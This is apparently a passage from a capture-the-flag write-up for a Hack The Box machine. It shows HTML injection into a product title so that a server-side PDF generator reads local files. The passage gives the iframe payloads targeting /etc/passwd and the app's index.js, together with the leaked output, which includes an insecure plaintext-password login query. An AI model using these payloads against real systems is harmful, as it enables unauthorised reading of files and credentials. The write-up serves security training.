 Getting the details of the purchase order.
```
GET /api/po/65a4663e083ab738915e17f5 HTTP/1.1
Host: dev.stocker.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: connect.sid=s%3AfXnbTUiNIdMOj_RootGAndnItDfZ8xjY.UrNdF4kJe00lNPn5WWzaPwVIbzy2LNTnTzSho8y8Dt4
If-None-Match: W/"9496-18d0a2f7fe1"
If-Modified-Since: Sun, 14 Jan 2024 22:55:01 GMT
Connection: close
```

PDF-viewer in the chrome is used to show data from product. We can try to send custom data and see if it can get displayed like title, price, amount. So we can inject data in previous request and then payload will be injected in pdf.

```
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup<iframe
src='file:///etc/passwd' width='1000' height='1000'></iframe>","description":"It's a
red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":2}]}

root:x:0:0:root:/root:/bin/bash
...
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash

```
Checking the current `index.js` file
```

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup<iframe src='file:///var/www/dev/index.js' width='1000' height='1000'></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":2}]}

...
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:**************************@localhost/dev?authSource=admin&w=1";
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
...
app.post("/login", async (req, res) => {
 const { username, password } = req.body;
 if (!username || !password) return res.redirect("/login?error=login-error");
 // TODO: Implement hashing
 const user = await mongoose.model("User").findOne({ username, password });
 if (!user) return res.redirect("/login?error=login-error");
...
```
